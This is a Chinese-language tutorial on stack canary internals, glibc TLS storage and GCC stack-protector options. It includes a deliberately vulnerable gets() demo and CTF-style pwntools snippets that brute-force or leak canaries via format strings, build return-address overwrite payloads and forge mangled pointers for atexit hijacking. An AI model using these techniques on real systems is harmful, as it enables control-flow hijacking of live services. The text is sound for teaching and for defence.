


# 二进制漏洞与利用基础（4）· 栈Canary原理

> [!abstract] TL;DR
> - **Stack Canary**（栈金丝雀）是编译器在函数**序言**（prologue）里于返回地址前插入一个随机值、在**尾声**（epilogue）返回前验证该值是否被修改的防护机制。
> - 若栈溢出覆盖了返回地址，途中必然先覆盖 canary；校验失败时 `__stack_chk_fail` 立即终止进程，阻止控制流劫持。
> - canary 存放于线程本地存储（TLS），x86-64 位于 `%fs:0x28`，多线程下每线程独立，无法跨线程推导。
> - GCC 提供四个粒度选项：`-fstack-protector`（只保护含 `char[]` 的函数）、`-fstack-protector-strong`（更广，推荐生产默认）、`-fstack-protector-all`（所有函数）、`-fstack-protector-explicit`（仅 `__attribute__((stack_protect))` 标注的函数）。
> - canary **仅防返回地址覆盖**，对越界写其他局部变量、堆溢出、格式化字符串等无效；需配合 ASLR/PIE + NX + FORTIFY 构成纵深防御。
> - 详细防护对比见 [[34.现代二进制防护机制/04.Stack Canary]]。

---

## 概述与定位

[[03.Shellcode概念]] 讲过，攻击者通过栈溢出覆盖返回地址，将控制流重定向到 shellcode 或 ROP gadget。Stack Canary 正是编译器在"返回地址可被覆盖"这条攻击路径上植入的**早期绊线**——比 NX/ASLR 更低层：它不依赖内核内存权限，而是利用**数据完整性校验**在运行期捕获覆盖行为。

名称来自 20 世纪矿工携带金丝雀下矿井的习俗：金丝雀对一氧化碳最敏感，比矿工先晕倒——于是矿工得到预警。栈上这个随机值的逻辑完全相同：溢出先碰它，进程先终止，攻击者无法继续。

本篇关注的技术范围：

| 维度 | 本篇 | 相关篇章 |
|------|------|----------|
| 栈帧布局 | prologue/epilogue 中 canary 的读写 | 调用规约见 [[22.调用规约/00.总览.md]] |
| 防御体系 | canary 工作原理与局限 | 防护全貌见 [[34.现代二进制防护机制/04.Stack Canary]] |
| TLS 机制 | `%fs:0x28` 如何存储 canary | 加载器视角见 [[14.动态链接与加载器详解/15.加载器视角的安全.md]] |
| 攻击上下文 | ret2libc 如何绕过 canary 前提 | 见 [[05.ret2libc]] |

---

## 原理与机制

### 函数序言与尾声：无 canary vs 有 canary

下面两张图对比相同函数在无/有 canary 时的栈帧演化。

#### 无 canary 的函数栈帧



溢出 `buf` 可直接覆盖 `saved RIP`，无任何拦截。

#### 有 canary 的函数栈帧



溢出 `buf` 要想覆盖 `saved RIP`，必然**先覆盖 canary**，尾声校验即刻发现并终止。

### 汇编层面：序言和尾声的指令

以 x86-64 System V ABI 为例：

```nasm
; ── prologue（序言）──────────────────────────────────────
push   rbp
mov    rbp, rsp
sub    rsp, 0x50            ; 分配局部变量空间（含 canary 槽）

mov    rax, QWORD PTR fs:0x28   ; 从 TLS 读 canary
mov    QWORD PTR [rbp-0x8], rax ; 写入栈上（紧邻 saved RBP 之下）
xor    eax, eax             ; 清除 rax 防止 canary 留在寄存器

; ── 函数体 ────────────────────────────────────────────────
; ... 业务逻辑 ...

; ── epilogue（尾声）──────────────────────────────────────
mov    rax, QWORD PTR [rbp-0x8] ; 取栈上 canary
xor    rax, QWORD PTR fs:0x28   ; 与 TLS 中的原始值异或
je     .ok                  ; 相等则正常返回
call   __stack_chk_fail     ; 不等 → 终止进程
.ok:
leave
ret
```

> [!note] 为什么 canary 放在 `rbp-0x8`（紧邻 saved RBP 之下）
> 局部变量在 `rbp-0x10` 及更低地址，canary 在 `rbp-0x8`，`saved RBP` 在 `rbp`，`saved RIP` 在 `rbp+0x8`。从低到高：`buf … → canary → saved RBP → saved RIP`。任何线性溢出在触碰 `saved RIP` 之前必经 canary。

### Canary 的三种类型

| 类型 | 特征 | 说明 |
|------|------|------|
| **Terminator canary** | 末尾含 `\x00`（有时含 `\r`、`\n`、`\xff`） | 利用字符串函数遇 `\0` 停止的特性，阻止通过 `strcpy`/`gets` 的精确覆盖 |
| **Random canary** | 启动时 `getrandom()`/`/dev/urandom` 生成的随机 8 字节（64位） | 现代 Linux glibc 默认实现；存入 TLS，进程内唯一 |
| **Random XOR canary** | random canary 再与控制流相关值（如 frame pointer）异或 | 部分实现中增加推导难度；StackGuard 原始论文描述 |

当前 glibc（x86-64）使用 **random canary**，值在 `__stack_chk_guard`（TLS 字段 `%fs:0x28`）中保存；每个进程启动时随机化一次，同一进程所有线程通过 TLS 各自独立持有。

### Canary 与 TLS（`%fs:0x28`）

TLS（Thread-Local Storage）是每线程私有的内存区域，由加载器（`ld.so`）在线程创建时分配（见 [[14.动态链接与加载器详解/15.加载器视角的安全.md]]）。在 x86-64 Linux 下，`%fs` 段寄存器指向当前线程的 `pthread_tcb`（线程控制块），其固定偏移 `0x28` 处正是 canary 值。

```
pthread_tcb（%fs 指向）:
  [0x00] tcbhead_t.tcb         ← 自引用指针
  [0x28] stack_guard           ← canary 值（8 字节随机数）
  [0x30] pointer_guard         ← 函数指针混淆用的 guard
```

这一设计的安全含义：

- canary **不在程序的数据段**，而在 TLS 页中，ASLR 下地址随机，读取需要专用的段寄存器间接寻址。
- 多线程程序每条线程有独立 canary，攻击者泄露一条线程的 canary 不能直接推断另一条线程的值。

---

## 最小示例（教学 demo）

> [!warning] 教学环境免责声明
> 以下示例**关闭了 stack protector**（`-fno-stack-protector`）来演示"无 canary 时的脆弱性"，生产代码**绝不应关闭此防护**。演示目的是理解 canary 为何必要，而非提供攻击载荷。

### 对比编译：开/关 canary

```c
/* vuln.c — 教学 demo，演示栈溢出缓冲区 */
#include <stdio.h>
#include <string.h>

void vuln(void) {
    char buf[64];
    gets(buf);          /* 危险：无边界检查，故意用于教学 */
    printf("you entered: %s\n", buf);
}

int main(void) {
    vuln();
    return 0;
}
```

```bash
# 【教学环境】关闭 canary + NX，复现裸溢出
gcc -g -o vuln_nocanary vuln.c \
    -fno-stack-protector \
    -z execstack \
    -no-pie

# 【正常编译】开启 strong 保护（生产推荐）
gcc -g -o vuln_protected vuln.c \
    -fstack-protector-strong \
    -z noexecstack \
    -pie -fpie
```

### checksec 对比输出

```bash
$ checksec --file=vuln_nocanary
```

> [!warning] 示例输出为示意，非本机实跑

```
RELRO           STACK CANARY      NX            PIE
No RELRO        No canary found   NX disabled   No PIE
```

```bash
$ checksec --file=vuln_protected
```

> [!warning] 示例输出为示意，非本机实跑

```
RELRO           STACK CANARY      NX            PIE
Full RELRO      Canary found      NX enabled    PIE enabled
```

### objdump 观察 canary 指令

```bash
$ objdump -d vuln_protected | grep -A 30 '<vuln>:'
```

> [!warning] 示例输出为示意，非本机实跑

```nasm
0000000000001169 <vuln>:
    1169:  55                    push   %rbp
    116a:  48 89 e5              mov    %rsp,%rbp
    116d:  48 83 ec 50           sub    $0x50,%rsp
    1171:  64 48 8b 04 25 28 00  mov    %fs:0x28,%rax   ; ← 读 TLS canary
    1178:  00 00
    117a:  48 89 45 f8           mov    %rax,-0x8(%rbp) ; ← 写入栈
    117e:  31 c0                 xor    %eax,%eax
    ...（函数体）...
    11b0:  48 8b 45 f8           mov    -0x8(%rbp),%rax ; ← 取栈上 canary
    11b4:  64 48 33 04 25 28 00  xor    %fs:0x28,%rax   ; ← 与 TLS 异或
    11bb:  00 00
    11bd:  74 05                 je     11c4 <vuln+0x5b>
    11bf:  e8 bc fe ff ff        call   1080 <__stack_chk_fail@plt> ; ← 校验失败
    11c4:  c9                    leave
    11c5:  c3                    ret
```

关键指令 `mov %fs:0x28,%rax` 和 `xor %fs:0x28,%rax` 是 canary 机制的汇编特征，可在任何开启保护的二进制中搜索到。

---

## GCC `-fstack-protector` 系列选项详解

| 选项 | 保护范围 | 何时保护 |
|------|----------|----------|
| `-fstack-protector` | 含 `char[]`（>= 8 字节）或 `alloca()` 的函数 | GCC 默认最窄；历史上已有绕过案例（非 char 数组溢出） |
| `-fstack-protector-strong` | 含任意数组、取了局部变量地址、使用 `alloca()` 的函数 | **推荐生产默认**；覆盖绝大多数实际溢出场景 |
| `-fstack-protector-all` | **所有**函数（无论是否有脆弱布局） | 最高覆盖，轻微性能开销（每个函数多 2 条 TLS 指令） |
| `-fstack-protector-explicit` | 仅 `__attribute__((stack_protect))` 标注的函数 | 内核等需要精细控制开销的场景 |

> [!note] `-fstack-protector-strong` 为何优于 `-fstack-protector`
> `strong` 变体于 GCC 4.9 引入，将保护范围从"仅含 char 数组"扩展到"任意局部数组或局部地址被取走（`&local_var`）"，实际能防住非字符数组（`int[]`、结构体数组）的越界写，是目前大多数 Linux 发行版和 Android 的默认值。

---

## 局限性：canary 保护不到哪里

Stack Canary 的防护边界非常明确：

```
canary 保护路径：
  栈溢出 → 覆盖 canary → 覆盖 saved RIP → [被检测，进程终止]

canary 无效路径：
  ① 越界写 canary 之前的局部变量（指针、函数指针、结构体成员）
  ② 堆溢出（heap overflow）
  ③ 格式化字符串任意写
  ④ UAF / 类型混淆
  ⑤ 精确覆盖（跳过 canary，仅改 saved RBP 做栈移位）
```

具体来说：

**越界写其他局部变量**：若 `buf[64]` 旁边还有 `int *fn_ptr`，溢出 `buf` 虽然未抵达 canary，也可改写函数指针，直接劫持控制流——canary 对此无感知。

**堆溢出**：canary 仅在**栈帧**内，堆对象无 canary 保护（FORTIFY_SOURCE 和 heap canary 是另一套机制）。

**格式化字符串任意写**：`printf("%n")` 可以精确将 4 字节写入任意地址，可以绕过 canary 直接改 GOT（若无 Full RELRO，参见 [[14.动态链接与加载器详解/15.加载器视角的安全.md]]）或改其他控制数据，canary 不做任何防护。

---

## 绕过前提（概念层）

> [!warning] 以下内容仅为"理解防护局限"的**概念说明**，不提供完整 exploit 链，符合本系列安全教育/防御定位。

Stack Canary 不是不可绕过，已知的绕过**前提**分两类：

### 1. 泄露 canary 值

canary 的强度依赖**保密性**。若程序存在**信息泄露漏洞**（如格式化字符串 `%p` 泄露、越界读 `buf[-1]`、`read` 返回超出边界的数据），攻击者可能读出栈上的 canary 值，再在溢出时**原值填回**，使尾声校验通过。

**条件**：
- 必须先有读漏洞（独立于溢出的信息泄露原语）
- 溢出时需精确知道 canary 在布局中的偏移

**缓解**：ASLR + PIE 使栈地址随机，增加泄露后的定位难度；减少信息泄露漏洞本身才是根本。

### 2. 逐字节爆破（仅限 fork 子进程模型）

`fork()` 子进程继承父进程的 canary（TLS 直接 copy-on-write 共享）。若服务端每次请求 `fork` 一个子进程处理，攻击者可以：

1. 每次发送溢出，只改 canary 的 1 个字节；
2. 子进程 crash → `SIGABRT` 可被观测；不 crash → 该字节猜对；
3. 逐字节枚举，8 字节 canary 最多 256×8 = 2048 次请求即可恢复。

**前提极严苛**：服务端必须是"fork-per-request + crash 可观测"模型；现代服务框架（线程池、异步 I/O）下此路径不适用。

### 3. fork 爆破 canary 的概率推导

#### 为什么 fork 使爆破成为可能

`fork()` 通过 `copy_process()` 完整复制父进程的地址空间，TLS 区域（包含 `%fs:0x28` 处的 canary）在 fork 后对子进程**完全相同**——子进程持有与父进程一模一样的 canary 值。只要父进程不退出、不重新初始化 canary，所有后继子进程共享同一个 canary，爆破者便可跨多次 fork 积累信息。

#### 单字节爆破的期望尝试次数

设 canary 某字节的真实值为 $v$（均匀分布在 $[0, 255]$）。爆破者对该字节逐一猜测，每次以不同字节值溢出覆盖，观察子进程是否崩溃：

- 猜中（值 $= v$）：子进程正常退出，canary 校验通过。
- 猜错（值 $\neq v$）：子进程调用 `__stack_chk_fail` 崩溃，`SIGABRT`。

爆破者采用线性枚举（0x00, 0x01, 0x02, …），命中 $v$ 的期望位置是第 $\frac{255+1}{2} = 128$ 次。若从随机顺序枚举，期望同为 128 次（平均停时为 $\frac{N+1}{2}$，$N=256$）。

```
单字节期望尝试次数 = (255 + 1) / 2 = 128 次
最坏情况（v = 0xFF）：256 次
最好情况（v = 0x00）：1 次
```

#### 多字节串行爆破的总期望

x86-64 canary 为 8 字节（64 位），但最低字节（LSB）在 glibc 的 random canary 实现中**固定为 `\x00`**（terminator 字节，阻止 `strcpy`/`gets` 类函数越过 canary）。因此实际需要爆破的是高 7 字节：

```
有效随机字节数：7（最低字节固定为 0x00，免费得知）
每字节期望尝试次数：128
总期望尝试次数：7 × 128 = 896 次
理论最坏情况：7 × 256 = 1792 次
```

若不利用最低字节固定这一性质（保守估计全 8 字节）：

$$E[\text{总次数}] = \sum_{i=1}^{8} E[\text{第 i 字节}] = 8 \times 128 = 1024 \text{ 次}$$

#### 从低到高字节逐步恢复的方法

爆破按**从最低字节到最高字节**逐步推进，每字节独立：

```
阶段 1：固定高 7 字节为 0（或上一步已知值），枚举第 0 字节
         → crash = 猜错；存活 = 猜对，记录 b[0]
阶段 2：固定 b[0]，枚举第 1 字节
         → ...
阶段 7：固定 b[0..5]，枚举第 6 字节（最高位非符号字节）
```

关键约束：溢出 payload 每轮只改目标字节，其余 canary 字节用已爆破出的正确值填充，否则之前的猜测会被污染导致错判。

```python
# 伪代码：逐字节爆破 canary（仅概念示意，非完整 exploit）
known = b'\x00'          # 最低字节固定为 \x00
for byte_idx in range(1, 8):
    for candidate in range(0x100):
        payload = b'A' * BUF_SIZE                   # 填满缓冲区
        payload += known + bytes([candidate])        # 已知 + 当前猜测字节
        payload += b'\x00' * (8 - len(known) - 1)   # 剩余高字节暂填 0
        payload += SAVED_RBP + SAVED_RIP             # 维持正常返回避免误判
        send_to_server(payload)
        if server_still_alive():                     # 子进程未崩溃
            known += bytes([candidate])
            break
canary = known  # 8 字节 canary 完整恢复
```

#### 实际约束与防御

| 约束 | 说明 |
|------|------|
| **crash 可观测** | 服务端必须在子进程崩溃时可被区分（连接断开 vs 正常响应），否则无法确认是否猜对 |
| **父进程 canary 不变** | fork-per-request 模型中父进程长期运行且不 re-exec，canary 全程相同 |
| **预 fork 线程池** | 线程共享同一 canary 但不 fork，且崩溃会影响整进程，此模型下爆破更受限 |
| **ASLR 不影响爆破可行性** | canary 爆破不依赖地址推测，ASLR 无直接干扰 |
| **缓解方法** | 避免 fork-per-request；使用 `seccomp` 限制子进程能力；监控异常崩溃率并限速/封禁 |

### 4. printf 格式串泄露 canary 的 payload 构造步骤

当程序中同时存在**格式化字符串漏洞**和**栈溢出漏洞**时，可以先用格式串泄露 canary，再在溢出 payload 中原值填回，令 canary 校验通过，从而同时绕过两层防护。

#### 前提回顾

- 程序存在 `printf(user_buf)` 或类似的格式串漏洞（见 [[08.格式化字符串漏洞]]）。
- canary 存放于栈上 `rbp-0x8` 处，会作为 `printf` 的某个"参数槽"被 `%p` 泄露。
- 同一函数（或另一个函数）存在栈溢出，可覆盖至返回地址。

#### 步骤一：定位 canary 的 `%N$p` 偏移

格式串泄露的"参数槽"对应栈上（和寄存器中）的连续内存。x86-64 下，`printf` 按以下顺序消费参数：

```
%1$p → rsi（printf 第1参数）
%2$p → rdx
%3$p → rcx
%4$p → r8
%5$p → r9
%6$p → 栈上第一个 8 字节（通常是调用者的第一个栈上参数或保存值）
%7$p → 栈上第二个 8 字节
...
%N$p → 栈上第 (N-6) 个 8 字节（当 N > 6）
```

canary 在 `rbp-0x8`，`printf` 的调用帧视角下它距格式串指针（`rdi`）的栈偏移是固定的，需要实测确定 N。

**实测方法（CTF 标准套路）**：

```python
# 阶段1：枚举每个偏移，找到值尾字节为 \x00 且看起来像随机值的槽位
# canary 的 LSB 固定为 0x00，是最显著的特征

from pwn import *

def find_canary_offset(p, max_offset=30):
    for n in range(1, max_offset + 1):
        p.send(f'%{n}$p\n'.encode())
        result = p.recvline()
        try:
            val = int(result.strip(), 16)
            # canary 特征：末字节 0x00，值非空且随机（非栈帧指针规律值）
            if (val & 0xff) == 0x00 and val > 0x1000000000000:
                print(f'[+] 疑似 canary 在 %{n}$p，值 = {hex(val)}')
        except:
            pass
```

找到后用 `%N$p` 固定读取，多次验证（每次 fork 子进程 canary 相同，值不变）。

#### 步骤二：泄露 canary 值

```python
# 假设已确定偏移 N = 11（具体值依程序而定）
from pwn import *

p = process('./vuln')                     # 或 remote(HOST, PORT)

# 第一次交互：用格式串泄露 canary
payload_leak = f'%11$p'.encode()
p.sendline(payload_leak)
output = p.recvline()
canary = int(output.strip(), 16)
print(f'[+] Leaked canary: {hex(canary)}')
# 验证：canary & 0xff == 0x00（最低字节应为 \x00）
assert canary & 0xff == 0x00, '可能不是 canary，重新确认偏移'
```

#### 步骤三：构造带 canary 回填的溢出 payload

```
栈帧布局（vuln 函数内）：
  [ buf (N字节) ][ ... padding ... ][ canary (8B) ][ saved rbp (8B) ][ saved rip (8B) ]
                                      ↑ 必须填回正确值，否则 __stack_chk_fail 终止
```

```python
# 第二次交互（或同一次，若漏洞允许）：栈溢出覆盖返回地址
# 以 ret2libc 为例，跳转到 system("/bin/sh")

BUF_SIZE   = 64            # char buf[64]
RBP_OFFSET = BUF_SIZE      # saved rbp 紧接缓冲区（需根据实际汇编确认）

payload  = b'A' * BUF_SIZE   # 填满缓冲区
payload += p64(canary)        # ← 原值填回 canary，使校验通过
payload += p64(0)             # saved rbp（随意，或保持原值）
payload += p64(ROP_CHAIN)     # 覆盖返回地址（ret2libc / one_gadget 等）

p.sendline(payload)
p.interactive()
```

#### 步骤四：边界陷阱与注意事项

| 陷阱 | 说明 |
|------|------|
| **canary 含 `\x00` 但 payload 用 `sendline`** | `sendline` 会在末尾加 `\n`；canary 的 `\x00` 一般在开头（最低字节），位于 payload 中间，不影响发送。但若漏洞函数是 `gets`/`scanf`，`\x00` 本身会截断读取，需改用允许发送任意字节的原语（`p.send` + `\n` 手动拼接） |
| **两次漏洞触发是否可行** | 许多 CTF 题目的漏洞函数在循环中被反复调用（`while(1)` 或 `read` 循环），允许先泄露后溢出。若只能触发一次，需将泄露和溢出合并到同一个 payload（需要更复杂的格式串构造）|
| **x86-32 的偏移计算** | 32 位下参数全在栈上，`%1$p` 直接对应第一个栈上参数，偏移通常比 64 位小（典型值 4\~8） |
| **ASLR 下 canary 地址的稳定性** | canary 值随进程随机化，但在同一进程生命周期内（非 exec）不变；fork 的子进程共享父进程 canary |

### 5. pointer_guard（`%fs:0x30`）：TLS 中的另一防护值

#### 存在背景

glibc 在 TLS 的 `%fs:0x28` 存 canary，在相邻的 `%fs:0x30` 同样存放了另一个随机值，称为 **pointer guard**（指针保护值）。它的作用不同于 canary：canary 防栈溢出，pointer guard 防**函数指针被篡改后直接调用**。

#### PTR_MANGLE 混淆机制

glibc 内部对若干敏感函数指针在存储前进行混淆，在读取时解混淆，使用的宏是 `PTR_MANGLE` 和 `PTR_DEMANGLE`（定义于 `sysdeps/unix/sysv/linux/x86_64/pointer_guard.h`）：

```c
/* 简化版（实际宏经过汇编优化）*/
#define PTR_MANGLE(var)   \
    (var) = (typeof(var))( \
        __rol((uintptr_t)(var) ^ THREAD_GET_POINTER_GUARD(), 17) )

#define PTR_DEMANGLE(var) \
    (var) = (typeof(var))( \
        __ror((uintptr_t)(var), 17) ^ THREAD_GET_POINTER_GUARD() )
```

其中 `THREAD_GET_POINTER_GUARD()` 展开为读取 `%fs:0x30`（x86-64）。操作是：

1. **异或（XOR）**：将函数指针与 `%fs:0x30` 处的随机 64 位值做 XOR，消除原始地址信息。
2. **循环左移（ROL，Rotate Left）17 位**：进一步打散比特分布，使逆向推导更困难。

```
存储时：mangled_ptr = ROL(original_ptr XOR pointer_guard, 17)
取出时：original_ptr = ROR(mangled_ptr, 17) XOR pointer_guard
```

#### 哪些函数指针受 PTR_MANGLE 保护

glibc 中使用此混淆保护的函数指针包括（不限于）：

| 函数指针 | 位置 | 说明 |
|----------|------|------|
| `jmp_buf` 中的 `__jmp_buf[7]`（PC）和 `__jmp_buf[6]`（SP） | 栈/线程本地 | `setjmp`/`longjmp` 所用的保存 PC/SP 需混淆 |
| `atexit`/`on_exit` 回调指针 | `__exit_funcs` 链表的 `fn.fa.fn` 字段 | 进程退出时调用，高价值劫持目标 |
| `__pthread_cleanup_upto` 链上的处理函数 | 线程取消/退出链 | pthread cleanup handler |
| `dl_fini` / `_dl_tls_dtors`（部分版本） | ld.so 内部 | 加载器/TLS 析构函数链 |

最典型的攻击场景是**劫持 `atexit` 回调**：若攻击者能任意写 `__exit_funcs` 链表中的函数指针，触发 `exit()` 就能执行任意代码。PTR_MANGLE 使直接将函数指针替换为 `system` 等不再有效——写入的必须是正确 mangle 后的值。

#### CTF 视角：pointer_guard 泄露与 bypass

在 CTF 题目中，绕过 pointer_guard 的思路：

**思路一：同时泄露 `%fs:0x30` 值**

若程序有任意地址读漏洞（`%s`、越界读、UAF），且能读到 TLS 区域（需先确定 `%fs` 基址），可直接泄露 pointer guard 值，然后自行计算 mangle 后的目标指针。

```python
# 概念示意：已知 TLS 基址 tls_base，pointer_guard = *(tls_base + 0x30)
pointer_guard = leak_addr(tls_base + 0x30)

import ctypes
def rol64(val, n):
    return ((val << n) | (val >> (64 - n))) & 0xFFFFFFFFFFFFFFFF

# 构造 mangle 后的目标指针（如 system）
system_addr = libc_base + SYSTEM_OFFSET
mangled = rol64(system_addr ^ pointer_guard, 17)
# 将 mangled 写入 __exit_funcs 链表中对应函数指针字段
```

**思路二：覆盖 pointer_guard 本身**

若能向 `%fs:0x30` 写零（或任意已知值），则 `PTR_MANGLE` 退化为纯 ROL，攻击者只需计算 `ROL(target, 17)` 即可构造合法的 mangled 指针，无需泄露。这需要能写 TLS 的任意写原语，难度较高但在特定堆/栈布局下可行。

**思路三：利用非受保护的 atexit 路径（glibc < 2.32 某些路径）**

旧版 glibc 部分析构函数注册路径未经混淆，现代版本已基本修复；CTF 题目标注 glibc 版本至关重要。

#### 与 canary 的对比

| | canary（`%fs:0x28`）| pointer_guard（`%fs:0x30`）|
|--|--|--|
| **保护目标** | 栈上返回地址（线性溢出路径） | 函数指针（atexit/longjmp/TLS 析构等） |
| **触发时机** | 函数 epilogue 校验 | 函数指针被 `PTR_DEMANGLE` 解混淆时 |
| **对攻击者的挑战** | 需泄露随机 8 字节值 | 需泄露随机 8 字节值 **并** 计算 ROL/XOR |
| **存放位置** | TLS `%fs:0x28` | TLS `%fs:0x30` |
| **glibc 引入版本** | 早期（2.4 前后） | glibc 2.4（x86）+ 2.9（x86-64，ROL 加入更晚） |

---

## 缓解与防御

> [!tip] 推荐的生产加固配置

### 始终开启 `-fstack-protector-strong`

```makefile
CFLAGS  += -fstack-protector-strong
CXXFLAGS += -fstack-protector-strong
```

大多数 Linux 发行版（Ubuntu、Debian、Fedora、Android NDK）已将此设为**默认 CFLAGS**，无需手动添加；嵌入式/定制工具链需显式确认。

### 配合 ASLR + PIE

canary 的有效性依赖其值的**不可预测性**——ASLR 随机化栈基址，使即使有读原语也难以定位 canary 偏移；PIE 随机化代码段基址，使 ROP gadget 地址同样不可预测。

```bash
# 验证系统级 ASLR
cat /proc/sys/kernel/randomize_va_space
# 2 = 全随机（含栈、堆、mmap、vdso），推荐值
```

```bash
# 编译时启用 PIE
gcc -pie -fpie -fstack-protector-strong -o app app.c
```

### 配合 FORTIFY_SOURCE

`-D_FORTIFY_SOURCE=2`（或 `=3`，GCC 12+）在编译时替换 `memcpy`/`strcpy`/`gets` 等函数为带边界检查的版本，对已知大小的缓冲区在**编译期**或**运行期**检测越界——与 canary 的"覆盖后检测"互补，部分场景可在覆盖发生前就报错。

```bash
gcc -D_FORTIFY_SOURCE=2 -O2 -fstack-protector-strong -o app app.c
```

> [!note] FORTIFY 需要 `-O1` 或更高优化级别才能生效；`-O0` 下编译器没有足够的信息推断缓冲区大小。

### 配合 Full RELRO + NX

- **Full RELRO**（`-z relro -z now`）：锁定 `.got.plt`，防止格式化字符串绕过 canary 后改 GOT，见 [[14.动态链接与加载器详解/15.加载器视角的安全.md]]。
- **NX**（`-z noexecstack`）：关闭可执行栈，使注入 shellcode 无效，见 [[03.Shellcode概念]]。

### 纵深防御清单

```
[  编译期  ]
  ✓ -fstack-protector-strong     栈 canary
  ✓ -D_FORTIFY_SOURCE=2          缓冲区越界提前检测
  ✓ -pie -fpie                   PIE，配合 ASLR
  ✓ -z relro -z now              Full RELRO，GOT 只读
  ✓ -z noexecstack               NX，栈不可执行

[  内核/运行期  ]
  ✓ ASLR = 2                     地址空间随机化
  ✓ seccomp                      系统调用过滤（进阶）
```

---

## 检测与工具

### checksec 一键检测

```bash
# 安装
pip install checksec.py
# 或 apt install checksec（Debian/Ubuntu）

$ checksec --file=<binary>
```

> [!warning] 示例输出为示意，非本机实跑

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
FORTIFY:  Enabled
```

`Stack: Canary found` 表示二进制中含有 `__stack_chk_fail` 引用及 `%fs:0x28` 读取模式。

### objdump 手动验证

```bash
# 搜索 canary 读取指令（x86-64）
$ objdump -d <binary> | grep "fs:0x28"
```

> [!warning] 示例输出为示意，非本机实跑

```
  1171: 64 48 8b 04 25 28 00 00 00   mov %fs:0x28,%rax
  11b4: 64 48 33 04 25 28 00 00 00   xor %fs:0x28,%rax
```

两条指令成对出现（一读一校验异或）是 canary 的汇编指纹。

```bash
# 搜索 __stack_chk_fail PLT 跳转
$ objdump -d <binary> | grep -A3 "__stack_chk_fail"
```

> [!warning] 示例输出为示意，非本机实跑

```
0000000000001080 <__stack_chk_fail@plt>:
    1080: ff 25 9a 2f 00 00   jmp    *0x2f9a(%rip)   # .got.plt 中的槽位
    1086: 68 00 00 00 00      push   $0x0
    108b: e9 e0 ff ff ff      jmp    1020 <.plt>
```

`__stack_chk_fail` 通过 PLT/GOT 调用，见 [[14.动态链接与加载器详解/08.PLT与GOT与延迟绑定.md]]；Full RELRO 下该 GOT 槽位在运行期只读，无法被 GOT 改写攻击替换。

### readelf 查看 `.note.ABI-tag` 与编译器版本

```bash
$ readelf -n <binary> | grep -i "stack"
$ readelf -d <binary> | grep -i "flags"
```

> [!warning] 示例输出为示意，非本机实跑

`DT_FLAGS` 中 `DF_BIND_NOW` 位被置位时，对应 `-z now`（Full RELRO 前提条件之一）。

---

## 小结

Stack Canary 是防御栈溢出控制流劫持的**第一道专用绊线**：

- **原理**：函数序言从 TLS（`%fs:0x28`）读随机值写入栈，返回前比较校验；被覆盖则 `__stack_chk_fail` 终止进程。
- **类型**：terminator / random / random XOR；现代 glibc 使用 random canary。
- **存放**：TLS 的 `stack_guard`（`%fs:0x28`），每线程独立，不在程序数据段。
- **编译选项**：`-fstack-protector-strong` 是推荐的生产默认；`-all` 覆盖最全；`-explicit` 供精细控制。
- **局限**：仅守返回地址覆盖路径，不保护其他局部变量、堆、格式化字符串写等攻击面；需纵深配合 ASLR、PIE、NX、FORTIFY、Full RELRO。
- **绕过前提**（概念层）：泄露 canary 原值后原值填回；或 fork-server 模型下逐字节爆破。
- **下一步**：[[05.ret2libc]] 展示在 canary 之外（假设已泄露或绕过）如何转向 libc 函数劫持控制流；系列 34 第 04 篇对 canary 防护做更深入的量化对比。

---

## 相关阅读

- [[03.Shellcode概念]] — canary 所防御的攻击前驱
- [[05.ret2libc]] — canary 之后的控制流劫持技术
- [[14.动态链接与加载器详解/15.加载器视角的安全.md]] — RELRO、FORTIFY、加载器加固全貌
- [[34.现代二进制防护机制/04.Stack Canary]] — canary 防护的深度量化分析
- [[22.调用规约/00.总览.md]] — 函数栈帧布局与调用约定基础

---

